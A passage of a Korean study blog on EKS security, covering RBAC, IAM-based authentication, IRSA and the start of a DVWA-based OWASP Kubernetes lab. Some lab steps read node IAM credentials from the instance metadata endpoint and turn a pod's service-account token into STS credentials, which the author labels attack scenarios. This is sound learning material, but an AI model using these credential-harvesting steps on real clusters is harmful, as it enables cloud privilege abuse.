이번에는 보안을 위한 인증 및 인가, 그리고 IRSA를 중심으로 EKS의 보안에 대해 학습해보았습니다.
kops 스터디 때에는 잘 몰랐는데, RBAC 뿐만 아니라 복기하다보니…
- [4-1] projected Volume
- [4-2] AWS Load Balancer Controller IRSA 및 LB Pod mutating
위의 두 가지가 중요한 파트를 차지하고 있었음을 알 수 있었습니다.
Network(2주차)가 매번 뭔가 일부가 아리송하였다면
Security는 복기하다가 이론적으로는 간단(과연?)해보여도
실제 구동방식 이해 자체가 초반에 안되서, 사흘 남짓 걸린 덕에 더 어려웠던 것 같습니다.
그 외
- myeks-bastion-2에 접속 시, 함께 진행할 때는
ssh {Public IP}로 잘 접속되는 걸 봤는데 정작 혼자 할 땐 접속이 되지않았습니다.- Amazon Linux에서는 ssh ec2-user@{Public IP}로 접속해야함
(필요한 경우 ssh키도 포함) - AWS Public AMI에서 제공되는 Ubuntu AMI의 경우,
ubuntu@{Public IP}로 접속가능 - 추정: 공유된 머신에 다른 설정이 이슈가 되는 것으로 추정됩니다.
 

- Amazon Linux에서는 ssh ec2-user@{Public IP}로 접속해야함
- IAM User(testuser)는 웹콘솔에서 삭제하는 것이 편리합니다.
- 아니면, 아래처럼 detach 한다는 느낌으로 순차적 실행합니다.
- list-attached-role-policies && detach-role-policy
- list-access-keys && delete-access-key
- delete-user 
- 아니면, 아래처럼 detach 한다는 느낌으로 순차적 실행합니다.
- CLI로 IAM Trust Relationship 조회
- 웹 콘솔에 굳이 들어가야하나 하고, 문득 호기심에 시도하다가 시간이 날아갔습니다.
- 결론: 하드코어한 파싱..
jq -r '.[].status.roleARN' | rev | cut -d '/' -f1 | rev- chatGPT에게 아래와 같이 교정 받았지만, 탐탁치 않음..
jq -r '.[].status.roleARN' | grep -oE '[^/]+$'

1. 실습 환경 배포
- 모의공격(?) 테스트를 위해 2개의 bastion 서버가 구성된 환경 배포
- p8s 및 grafana의 경우, 선택적으로 배포해도 되서 기술 생략
curl -O https://s3.ap-northeast-2.amazonaws.com/cloudformation.cloudneta.net/K8S/eks-oneclick5.yaml
# 이하 중략
# CERT_ARN(ACM)의 경우에는 /etc/profile에 환경변수 저장을 안해둬서
# 세션이 만료되면, 다시 재설정 필요
CERT_ARN=`aws acm list-certificates --query 'CertificateSummaryList[].CertificateArn[]' --output text`
echo $CERT_ARN
2. k8s 인증/인가
.kube/config파일을 기반- cluster: k8s API 서버 접속정보
- users: API 서버에 접속하기 위한 유저 인증정보 목록
- contexts: cluster및 user를 매핑(조합)한 정보

2-1. 인증/인가 실습
- 여기서는 인프라팀, 개발팀으로 각각의 ns에 유저를 생성하여 실습
kubectl create namespace dev-team
kubectl create ns infra-team
kubectl get ns
# 네임스페이스에 서비스 어카운트 생성
kubectl create sa dev-k8s -n dev-team
kubectl create sa infra-k8s -n infra-team
# 서비스 어카운트 정보 확인
kubectl get sa -n dev-team
kubectl get sa dev-k8s -n dev-team -o yaml | yh
kubectl get sa -n infra-team
kubectl get sa infra-k8s -n infra-team -o yaml | yh
# dev-k8s 서비스 어카운트의 토큰 획득
DevTokenName=$(kubectl get sa dev-k8s -n dev-team -o jsonpath="{.secrets[0].name}")
DevToken=$(kubectl get secret -n dev-team $DevTokenName -o jsonpath="{.data.token}" | base64 -d)
echo $DevToken

- 각각의 YAML파일에 토큰이 있는데 이는 JWT(Bearer)토큰으로 아래에서 확인가능
- https://jwt.io/
- 경우에 따라, Credential도 있기 때문에 취급주의

- SA 지정하여 파드 생성 후 권한 테스트
cat <<EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
name: dev-kubectl
namespace: dev-team
spec:
serviceAccountName: dev-k8s
containers:
- name: kubectl-pod
image: bitnami/kubectl:1.24.10
command: ["tail"]
args: ["-f", "/dev/null"]
terminationGracePeriodSeconds: 0
EOF
cat <<EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
name: infra-kubectl
namespace: infra-team
spec:
serviceAccountName: infra-k8s
containers:
- name: kubectl-pod
image: bitnami/kubectl:1.24.10
command: ["tail"]
args: ["-f", "/dev/null"]
terminationGracePeriodSeconds: 0
EOF
# 확인
kubectl get pod -o dev-kubectl -n dev-team -o yaml | grep serviceAccount
kubectl get pod -o infra-kubectl -n infra-team -o yaml | grep serviceAccount
# 파드에 기본 적용되는 SA 정보(토큰)
kubectl exec -it dev-kubectl -n dev-team -- ls /run/secrets/kubernetes.io/serviceaccount
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/namespace
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/ca.crt
# 각 파드 접속하여, 정보 확인 with alias
alias k1='kubectl exec -it dev-kubectl -n dev-team -- kubectl'
alias k2='kubectl exec -it infra-kubectl -n infra-team -- kubectl'
# 권한 테스트
k1 get pods # kubectl exec -it dev-kubectl -n dev-team -- kubectl get pods 와 동일한 실행 명령이다!
k1 run nginx --image nginx:1.20-alpine
k1 get pods -n kube-system
# (옵션) kubectl 실행 사용자(host 기준)가 특정 권한을 가지고 있는지 확인 [결과: no]
k1 auth can-i get pods


- 당연히 되지 않음. 단지 SA를 만들어서 파드에 적어넣었을 뿐
- Role의 부재
- SA와 Role의 매핑(RoleBinding)의 부재
- 아래에서 위의 두 가지를 생성
# 각 NS에 Role 생성 후 확인
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
name: role-dev-team
namespace: dev-team
rules:
- apiGroups: ["*"]
resources: ["*"]
verbs: ["*"]
EOF
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
name: role-infra-team
namespace: infra-team
rules:
- apiGroups: ["*"]
resources: ["*"]
verbs: ["*"]
EOF
kubectl describe roles role-dev-team -n dev-team
# 각 NS에 SA와 Role 매핑(RoleBinding) 생성 후 확인
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: roleB-dev-team
namespace: dev-team
roleRef:
apiGroup: rbac.authorization.k8s.io
kind: Role
name: role-dev-team
subjects:
- kind: ServiceAccount
name: dev-k8s
namespace: dev-team
EOF
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: roleB-infra-team
namespace: infra-team
roleRef:
apiGroup: rbac.authorization.k8s.io
kind: Role
name: role-infra-team
subjects:
- kind: ServiceAccount
name: infra-k8s
namespace: infra-team
EOF
kubectl describe rolebindings roleB-dev-team -n dev-team
# 권한 테스트 성공
alias k1='kubectl exec -it dev-kubectl -n dev-team -- kubectl'
alias k2='kubectl exec -it infra-kubectl -n infra-team -- kubectl'
k1 get pods
k1 run nginx --image nginx:1.20-alpine
k1 get pods
k1 delete pods nginx
k1 get pods -n kube-system
k1 get nodes
k1 auth can-i get pods # yes


3. EKS 인증/인가
- 앞에서 k8s 인증/인가를 했다면 이제는 AWS IAM 서비스와 결합
- 인증: AWS IAM
- 인가: k8s RBAC
- 원활한 진행을 위해 RBAC용 krew 플러그인 설치
kubectl krew install access-matrix rbac-tool rbac-view rolesum
# 실습 NS인 default에서 액세스 매트릭스
kubectl access-matrix --namespace default
# USER/GROUP/SA 단위의 RBAC 조회
# system:nodes == eks:node-bootstrapper
# system:bootstrappers == eks:node-bootstrapper
kubectl rbac-tool lookup system:masters
# USER/GROUP/SA 단위의 RBAC 정책 규칙
kubectl rbac-tool policy-rules
kubectl rbac-tool policy-rules
# 해당 클러스터에서 사용 가능한 클러스터롤 조회
kubectl rbac-tool show
# 클러스터에 인증된 현재 컨텍스트의 사용자
kubectl rbac-tool whoami
# USER/GROUP/SA 단위의 RBAC 역할 조회
kubectl rolesum aws-node -n kube-system
kubectl rolesum -k User system:kube-proxy
kubectl rolesum -k Group system:masters
# (새로운 쉘) 현재 접속한 본인의 RBAC 권한을 시각적으로
echo -e "RBAC View Web http://$(curl -s ipinfo.io/ip):8800"
kubectl rbac-view





3-1. EKS 인증/인가 살펴보기
- STS(Security Token Service)를 기반
- aws-cli v1.16.156부터 aws-iam-authenticator 설치 없이 get-token으로 획득 가능
- kubectl ~
aws eks get-token~ EKS Service Endpoint 요청 구조 - kubectl의 Client-Go 라이브러가 Pre-Signed URL을 Tokenize하여 엔드포인트 요청 [Credential 가득함. 유의!]
- EKS API는 Webhook token authenticator에 Token Review Request
AWS IAM 해당 인증을 호출 완료 후, User/Role의 ARN 반환 - k8s RBAC 인가 처리
- kubectl ~
- EKS configmap에서
system:masters나system:authenticated로 예상되는 그룹 정보는 노출되지 않음- Human Error 예방 추정
kubectl rbac-tool whoami으로 조회 가능
- (kubeconfig)v1beta1을 쓰고 있는데, 실습을 하다보면 간혹 token값 앞부분이 깨져나옴
- To-Do: v1(GA) 이후로 해서 테스트해봐야 함


# sts caller id의 ARN
aws sts get-caller-identity --query Arn
# kubeconfig 정보. get-token 커맨드 삽입 확인
cat ~/.kube/config | yh
# STS 임시 보안 자격 증명 토큰 요청. 시간경과 시 토큰 재발급
aws eks get-token --cluster-name $CLUSTER_NAME | jq -r '.status.token'
# tokenreview, Webhook, validatingwebhookconfigurations API 리소스
kubectl api-resources | grep authentication
kubectl api-resources | grep Webhook
kubectl get validatingwebhookconfigurations
kubectl get validatingwebhookconfigurations eks-aws-auth-configmap-validation-webhook -o yaml | kubectl neat | yh
# aws-auth configmap
kubectl get cm -n kube-system aws-auth -o yaml | kubectl neat | yh
# EKS를 설치한 IAM User 정보
kubectl rbac-tool whoami
# system:masters, system:authenticated 그룹 정보
kubectl rbac-tool lookup system:masters
kubectl rbac-tool lookup system:authenticated
kubectl rolesum -k Group system:masters
kubectl rolesum -k Group system:authenticated
# system:masters 그룹이 사용 가능한 ClusterRole: cluster-admin
kubectl describe clusterrolebindings.rbac.authorization.k8s.io cluster-admin
# cluster-admin 의 PolicyRule: 모든 리소스 사용 가능!
kubectl describe clusterrole cluster-admin
# system:authenticated 그룹이 사용 가능한 ClusterRole
kubectl describe ClusterRole system:discovery
kubectl describe ClusterRole system:public-info-viewer
kubectl describe ClusterRole system:basic-user
kubectl describe ClusterRole eks:podsecuritypolicy:privileged



3-2. 신규 인프라 관리자용 myeks-bastion-2에 EKS 인증/인가 설정
- 기존 쉘(myeks-bastion)과 교차하여 진행: testuser 생성 및 권한 수정
##
# myeks-bastion
##
# testuser 생성 및 프로그래밍 방식 Access 권한 부여, 어드민 접속 정책 추가
# Access Key의 경우, 1회만 출력 -> 메모
aws iam create-user --user-name testuser
aws iam create-access-key --user-name testuser
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name testuser
# get-call-identity ARN
aws sts get-caller-identity --query Arn
# testuser가 접속할 myeks-bastion-2 PublicIP 확인
aws ec2 describe-instances --query "Reservations[*].Instances[*].{PublicIPAdd:PublicIpAddress,PrivateIPAdd:PrivateIpAddress,InstanceName:Tags[?Key=='Name']|[0].Value,Status:State.Name}" --filters Name=instance-state-name,Values=running --output table


- 현재 상태에서 testuser는 접속은 가능하지만, kubectl 불가
- 당연하게도, 관리자 그룹(
system:masters)과 매핑이 되지 않았기에 불가
- 당연하게도, 관리자 그룹(
##
# myeks-bastion-2
##
# testuser로 접속
ssh ec2-user@{myeks-bastion-2 PublicIP}
# testuser IAM 설정
aws configure
# get-call-identity ARN
aws sts get-caller-identity --query Arn
# kubectl 명령어 실행: 권한 없음
kubectl get node -v6
ls ~/.kube

- 다시, 원래 쉘에서 그룹 부여를 하여 권한 설정: EKS 관리자 레벨
##
# myeks-bastion
##
eksctl create iamidentitymapping --cluster $CLUSTER_NAME --username testuser --group system:masters --arn arn:aws:iam::$ACCOUNT_ID:user/testuser
# system:masters 적용 확인
# IAM 매핑 확인 시, 기존 NodeInstanceRole은 노드에 접속될 때 사용되는 IAM Role(Credential 확인 불가, 세션과 같은 느낌으로 이해)
kubectl get cm -n kube-system aws-auth -o yaml | kubectl neat | yh
eksctl get iamidentitymapping --cluster $CLUSTER_NAME

- 다시, testuser에서 kubectl 명령어 실행: 권한 있음
- 실행 전, kubeconfig 업데이트 필요
##
# myeks-bastion-2
##
# kubeconfig 업데이트(생성)
aws eks update-kubeconfig --name $CLUSTER_NAME --user-alias testuser
# kubeconfig에 system:masters 그룹 추가 확인
cat ~/.kube/config | yh
# kubectl 실행: 권한 있음
kubectl ns default
kubectl get node -v6
# rbac-tool: system:masters 그룹과 더불어 system:authenticated가 같이 설정
kubectl krew install rbac-tool && kubectl rbac-tool whoami
- testuser의 그룹 재설정 (system:masters -> system:authenticated)
- 텍스트에디터로 직접 편집
- (또는) iamidentitymapping 삭제 후, 다시 생성
##
# myeks-bastion
##
kubectl edit cm -n kube-system aws-auth
eksctl get iamidentitymapping --cluster $CLUSTER_NAME

- testuser에서 kubectl 명령어 실행 시도: 일부 권한 없음 확인
- config 업데이트를 하지 않아도, 적용되어 있음
- pods 조회는 가능하지만, nodes 조회는 불가
##
# myeks-bastion-2
##
kubectl get node -v6
kubectl api-resources -v5


- 물론 testuser IAM 매핑을 삭제하면, 아예 권한이 없음
##
# myeks-bastion
##
# testuser IAM 맵핑 삭제
eksctl delete iamidentitymapping --cluster $CLUSTER_NAME --arn arn:aws:iam::$ACCOUNT_ID:user/testuser
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
kubectl get cm -n kube-system aws-auth -o yaml | yh
##
# myeks-bastion-2
##
kubectl get node -v6
kubectl api-resources -v5

3-3. (옵션) EC2 Instance Profile(IAM Role)에 맵핑된 k8s RBAC 확인
- 3-2에서
NodeInstanceRole을 중간에 확인system:nodes- username:
system:node:{{EC2PrivateDNSName}}
- 추가 IAM 증명이 없어도, 노드에 생성된 파드에서 IMDS로 EC2 IAM Role 사용
- Token 만료 전까지 이용 가능. 권한 유의


# 노드 별 hostname, sts ARN
for node in $N1 $N2 $N3; do ssh ec2-user@$node hostname; done
for node in $N1 $N2 $N3; do ssh ec2-user@$node aws sts get-caller-identity --query Arn; done
# aws-auth ConfigMap
kubectl describe configmap -n kube-system aws-auth
# IAM identity mapping
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
- aws-cli(v2) 파드를 추가하여, 해당 EC2 노드의 IMDS 정보 확인
cat <<EOF | kubectl create -f -
apiVersion: apps/v1
kind: Deployment
metadata:
name: awscli-pod
spec:
replicas: 2
selector:
matchLabels:
app: awscli-pod
template:
metadata:
labels:
app: awscli-pod
spec:
containers:
- name: awscli-pod
image: amazon/aws-cli
command: ["tail"]
args: ["-f", "/dev/null"]
terminationGracePeriodSeconds: 0
EOF
kubectl get pod -owide
# 파드 이름 변수 지정 후 각 파드에서 EC2 InstancePrfile(IAM Role) ARN 확인
APODNAME1=$(kubectl get pod -l app=awscli-pod -o jsonpath={.items[0].metadata.name})
APODNAME2=$(kubectl get pod -l app=awscli-pod -o jsonpath={.items[1].metadata.name})
echo $APODNAME1, $APODNAME2
kubectl exec -it $APODNAME1 -- aws sts get-caller-identity --query Arn
kubectl exec -it $APODNAME2 -- aws sts get-caller-identity --query Arn
# 추가 IAM 증명이 없어도, IMDS로 EC2 IAM Role 사용: 권한 유의
kubectl exec -it $APODNAME1 -- aws ec2 describe-instances --region ap-northeast-2 --output table --no-cli-pager
kubectl exec -it $APODNAME2 -- aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager
# aws-cli 파드에 쉘 접속 후, EC2 메타데이터 확인
kubectl exec -it $APODNAME1 -- bash
curl -s http://169.254.169.254/ -v
# Token 요청
curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" ; echo
curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" ; echo
# Token을 이용한 IMDSv2 사용
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
echo $TOKEN
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/ ; echo
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/ ; echo
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/ ; echo
# 위에서 출력된 IAM Role을 아래 입력 후 확인
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1DC6Y2GRDAJHK
# 파드 쉘 종료
exit


- aws-cli 파드에 kubeconfig를 통한 mapRoles 정보 생성
# node 의 IAM Role ARN을 변수로 지정
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
NODE_ROLE=eksctl-myeks-nodegroup-ng1-NodeInstanceRole-{IAM Role ARN}
# awscli 파드에서 kubeconfig 정보 생성
# 확인 시, 실행 인자에 role도 추가되었음
kubectl exec -it $APODNAME1 -- aws eks update-kubeconfig --name $CLUSTER_NAME --role-arn $NODE_ROLE
kubectl exec -it $APODNAME1 -- cat /root/.kube/config | yh
kubectl exec -it $APODNAME2 -- aws eks update-kubeconfig --name $CLUSTER_NAME --role-arn $NODE_ROLE
kubectl exec -it $APODNAME2 -- cat /root/.kube/config | yh


- (보너스)노드에 SSH 접속, kubeconfig 파일 생성 후 kubectl 실행
- 중간에 안되서 중단 했었지만, 복기하고 나니 어디가 문제인지 파악: To-Do
ssh ec2-user@$N1
sudo su -
# kubectl 설치
curl --silent --location "https://github.com/weaveworks/eksctl/releases/latest/download/eksctl_$(uname -s)_amd64.tar.gz" | tar xz -C /tmp
mv /tmp/eksctl /usr/local/bin
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
# 정상 출력
aws sts get-caller-identity --query Arn
# Token 요청: 미리 메모
aws eks get-token --cluster-name myeks | jq -r '.status.token'
# 위의 토큰과 앞에서 출력된 kubeconfig를 가져와서 kubeconfig 생성
mkdir ~/.kube
cat << EOF > ~/.kube/config
apiVersion: v1
clusters:
- cluster:
certificate-authority-data: LS0tL{생략}S0tCg==
server: https://0A9ACECDBF06CF1E13D3E0F19A0F0D2C.sk1.ap-northeast-2.eks.amazonaws.com
name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
contexts:
- context:
cluster: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
user: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
current-context: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
kind: Config
preferences: {}
users:
- name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
user:
exec:
apiVersion: client.authentication.k8s.io/v1beta1
args:
- --region
- ap-northeast-2
- eks
- get-token
- --cluster-name
- myeks
- --output
- json
- --role
- eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1DC6Y2GRDAJHK
command: aws
EOF
# kubectl 시도
kubectl get node -v6
# kubeconfig 삭제
rm -rf .kube
4. EKS IRSA
- 위에서 경험했듯이 EC2 Instance Profile은 편리하나, 보안상 취약(최소 권한 부여 원칙)
- IAM Roles for Service Accounts: 사용자 관리형 서비스 계정
- 실습 환경 구성 시, 아래의 스크립트가 포함
eksctl create cluster --name $CLUSTER_NAME ... --external-dns-access --full-ecr-access --asg-access
4-1. `projected’ Volume
- k8s의 projected Volume을 활용하여, 아래의 volume source를 하나의 디렉토리로 통합
- Secret: user, pass
- ConfigMap
- Downward API
- ServiceAccountToken
- 원문: https://kubernetes.io/docs/tasks/configure-pod-container/configure-projected-volume-storage/
# Create the Secrets:
## Create files containing the username and password:
echo -n "admin" > ./username.txt
echo -n "1f2d1e2e67df" > ./password.txt
## Package these files into secrets:
kubectl create secret generic user --from-file=./username.txt
kubectl create secret generic pass --from-file=./password.txt
# 파드 생성
kubectl apply -f https://k8s.io/examples/pods/storage/projected.yaml
# 파드 확인: projected 라벨
kubectl get pod test-projected-volume -o yaml | kubectl neat | yh
# secret
kubectl exec -it test-projected-volume -- ls /projected-volume/
kubectl exec -it test-projected-volume -- cat /projected-volume/username.txt ;echo
kubectl exec -it test-projected-volume -- cat /projected-volume/password.txt ;echo
# 삭제
kubectl delete pod test-projected-volume && kubectl delete secret user pass

4-2. IRSA 실습
-
개념
- MutatingWebhook: 사용자가 요청한 request에 대해 관리자가 임의로 값을 변경
kubectl get validatingwebhookconfigurations
- ValidatingWebhook: 사용자가 요청한 request에 대해 관리자가 허용 차단
kubectl get mutatingwebhookconfigurations
- MutatingWebhook: 사용자가 요청한 request에 대해 관리자가 임의로 값을 변경
-
실습1. CloudTrail 이벤트 ListBucket을 통한, Access Denied 확인
- 아래 실행 후, CloudTrail 이벤트 확인 AWS 링크
userIdentity
# 파드1 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
name: eks-iam-test1
spec:
containers:
- name: my-aws-cli
image: amazon/aws-cli:latest
args: ['s3', 'ls']
restartPolicy: Never
automountServiceAccountToken: false
EOF
# 확인
kubectl get pod
kubectl describe pod
# 로그 확인
kubectl logs eks-iam-test1
# 파드1 삭제
kubectl delete pod eks-iam-test1


- 실습2. k8s SA & JWT token
- SA 생성 시, k8s secret에 JWT token이 자동 생성
- EKS IdP(OpentID Connect Provider) 주소: k8s가 발급한 Token 유효 검증
# 파드2 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
name: eks-iam-test2
spec:
containers:
- name: my-aws-cli
image: amazon/aws-cli:latest
command: ['sleep', '36000']
restartPolicy: Never
EOF
kubectl get pod
kubectl describe pod
# aws 서비스 사용 시도
kubectl exec -it eks-iam-test2 -- aws s3 ls
# 서비스 어카운트 토큰
SA_TOKEN=$(kubectl exec -it eks-iam-test2 -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
echo $SA_TOKEN
# jwt 혹은 JWT 웹 사이트 이용
jwt decode $SA_TOKEN --json --iso8601
# 파드2 삭제
kubectl delete pod eks-iam-test2

- 실습3. amazon-eks-pod-identity-webhook을 통한 파드 IAM access 주입(mutating pods)
- 아래의 예제에서는 EKS 상의 LB Controller가 AWS 서비스에 접근하여 LB를 제어
- 따라서 LB Controller가 이용하는 SA에도 관련 IAM Role을 주입
- LB Controller는 kube-system Namespace에서 동작 & LB Controller SA 이용
- Webhook이 LB Controller Pod spec에 정보를 주입, 변경(mutating)
- 해당 Trust Relationship에서는 인증방법(
sts:AssumeRoleWithWebIdentity)이 기재- JWT Token 내 포함되야하는 Claim 조건1:
aud는sts.amazonaws.com - JWT Token 내 포함되야하는 Claim 조건2:
sub는system:serviceaccount:kube-system:aws-load-balancer-controller
- JWT Token 내 포함되야하는 Claim 조건1:
- OIDC Discovery end-point?
- OpenID Connect Discovery RFC is the specification that defines the structure and content of the OIDC .well-known end-point. OPEN BANKING
- 참고: Ssup2 Blog
- 아래의 예제에서는 EKS 상의 LB Controller가 AWS 서비스에 접근하여 LB를 제어
# eksctl create iamserviceaccount: SA & IAM role & trust policy 동시 생성
# CloudFormation Stack -> IAM Role 확인 가능
eksctl create iamserviceaccount \
--name my-sa \
--namespace default \
--cluster $CLUSTER_NAME \
--approve \
--attach-policy-arn $(aws iam list-policies --query 'Policies[?PolicyName==`AmazonS3ReadOnlyAccess`].Arn' --output text)
# aws-load-balancer-controller IRSA의 동작 수행을 예상해야 함
eksctl get iamserviceaccount --cluster $CLUSTER_NAME
kubectl get sa
kubectl describe sa my-sa
## SA를 기반으로한 신규 파드 생성
# 파드3번 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
name: eks-iam-test3
spec:
serviceAccountName: my-sa
containers:
- name: my-aws-cli
image: amazon/aws-cli:latest
command: ['sleep', '36000']
restartPolicy: Never
EOF
# 해당 SA를 파드가 사용 시 mutatingwebhook으로 Env,Volume 추가함
kubectl get mutatingwebhookconfigurations pod-identity-webhook -o yaml | kubectl neat | yh
## 파드 생성 yaml에 새로운 내용 추가 확인
# Pod Identity Webhook은 mutating webhook을 통해 Environment 및 1개의 Projected 볼륨 추가
# Environment.{AWS_ROLE_ARN | AWS_WEB_IDENTITY_TOKEN_FILE}
# Volume.aws-iam-token
kubectl get pod eks-iam-test3
kubectl describe pod eks-iam-test3
## 파드에서 aws-cli 사용
# 몇 가지는 구동이 안되었는데, 아직 이해가 부족하여 추후에 다시 확인 필요 (To-Do)
# VPC의 경우, 권한이 없어서 안되는 것으로 추측
eksctl get iamserviceaccount --cluster $CLUSTER_NAME
kubectl exec -it eks-iam-test3 -- aws sts get-caller-identity --query Arn\
kubectl exec -it eks-iam-test3 -- aws s3 ls
kubectl exec -it eks-iam-test3 -- aws ec2 describe-instances --region ap-northeast-2
kubectl exec -it eks-iam-test3 -- aws ec2 describe-vpcs --region ap-northeast-2
# 파드에 볼륨 마운트 2개 확인: aws-iam-token
kubectl get pod eks-iam-test3 -o json | jq -r '.spec.containers | .[].volumeMounts'
# aws-iam-token 볼륨 정보 확인 : JWT 토큰이 담겨져있고, exp, aud 속성이 추가되어 있음
kubectl get pod eks-iam-test3 -o json | jq -r '.spec.volumes[] | select(.name=="aws-iam-token")'
# API 리소스: mutatingwebhookconfigurations, validatingwebhookconfigurations
kubectl api-resources |grep hook
kubectl get MutatingWebhookConfiguration
kubectl describe MutatingWebhookConfiguration pod-identity-webhook
kubectl get MutatingWebhookConfiguration pod-identity-webhook -o yaml | yh
# AWS_WEB_IDENTITY_TOKEN_FILE 확인
IAM_TOKEN=$(kubectl exec -it eks-iam-test3 -- cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
echo $IAM_TOKEN
# Discovery Endpoint 접근
IDP=$(aws eks describe-cluster --name myeks --query cluster.identity.oidc.issuer --output text)
curl -s $IDP/.well-known/openid-configuration | jq -r '.'
curl -s $IDP/keys | jq -r '.' # 공개키가 포함된 JWKS 필드





- 실습 4. IRSA를 가장 취약하게 사용하는 방법
- 정보 탈취 시 키/토큰 발급 악용 가능.
- 라이브 서비스로는 시도 금물
- 위의 실습 3에 바로 이어서 진행
- 정보 탈취 시 키/토큰 발급 악용 가능.
# AWS_WEB_IDENTITY_TOKEN_FILE 토큰 값 변수 지정
IAM_TOKEN=$(kubectl exec -it eks-iam-test3 -- cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
echo $IAM_TOKEN
# ROLE ARN 확인 후 변수 직접 지정
eksctl get iamserviceaccount --cluster $CLUSTER_NAME
ROLE_ARN=arn:aws:iam::911283464785:role/eksctl-myeks-addon-iamserviceaccount-default-Role1-{arn}
# assume-role-with-web-identity STS 임시자격증명 발급 요청
aws sts assume-role-with-web-identity --role-arn $ROLE_ARN --role-session-name mykey --web-identity-token $IAM_TOKEN | jq
# 파드 삭제
kubectl delete pod eks-iam-test3
5. OWAPS k8s Top 10
- 실습에서는 세 가지 시나리오로 k8s 보안위협 체감을 목표로 진행
- 마지막 5-3 실습의 경우 기존 kubeconfig를 삭제하기 때문에
cloudformation stack 삭제 시, 수동 작업 필요할 수 있음
5-1. 실습1: EKS pod가 IMDS API를 악용하는 시나리오
- DVWA 활용: mysql, dvwa, ingress
- 배포 후 웹에서 확인까지 대기 시간 소요

# mysql 배포
cat <<EOT > mysql.yaml
apiVersion: v1
kind: Secret
metadata:
name: dvwa-secrets
type: Opaque
data:
# s3r00tpa55
ROOT_PASSWORD: czNyMDB0cGE1NQ==
# dvwa
DVWA_USERNAME: ZHZ3YQ==
# p@ssword
DVWA_PASSWORD: cEBzc3dvcmQ=
# dvwa
DVWA_DATABASE: ZHZ3YQ==
---
apiVersion: v1
kind: Service
metadata:
name: dvwa-mysql-service
spec:
selector:
app: dvwa-mysql
tier: backend
ports:
- protocol: TCP
port: 3306
targetPort: 3306
---
apiVersion: apps/v1
kind: Deployment
metadata:
name: dvwa-mysql
spec:
replicas: 1
selector:
matchLabels:
app: dvwa-mysql
tier: backend
template:
metadata:
labels:
app: dvwa-mysql
tier: backend
spec:
containers:
- name: mysql
image: mariadb:10.1
resources:
requests:
cpu: "0.3"
memory: 256Mi
limits:
cpu: "0.3"
memory: 256Mi
ports:
- containerPort: 3306
env:
- name: MYSQL_ROOT_PASSWORD
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: ROOT_PASSWORD
- name: MYSQL_USER
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_USERNAME
- name: MYSQL_PASSWORD
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_PASSWORD
- name: MYSQL_DATABASE
valueFrom:
secretKeyRef:
name: dvwa-secrets
key: DVWA_DATABASE
EOT
kubectl apply -f mysql.yaml
# DVWA 배포
cat <<EOT > dvwa.yaml
apiVersion: v1
kind: ConfigMap
metadata:
name: dvwa-config
data:
RECAPTCHA_PRIV_KEY: ""
RECAPTCHA_PUB_KEY: ""
SECURITY_LEVEL: "low"
PHPIDS_ENABLED: "0"
PHPIDS_VERBOSE: "1"
PHP_DISPLAY_ERRORS: "1"
---
apiVersion: v1
kind: Service
metadata:
name: dvwa-web-service
spec:
selector:
app: dvwa-web
type: ClusterIP
ports:
- protocol: TCP
port: 80
targetPort: 80
---
apiVersion: apps/v1
kind: Deployment
metadata:
name: dvwa-web
spec:
replicas: 1
selector:
matchLabels:
app: dvwa-web
template:
metadata:
labels:
app: dvwa-web
spec:
containers:
- name: dvwa
image: cytopia/dvwa:php-8.1
ports:
- containerPort: 80
resources:
requests:
cpu: "0.3"
memory: 256Mi
limits:
cpu: "0.3"
memory: 256Mi
env:
- name: RECAPTCHA_PRIV_KEY
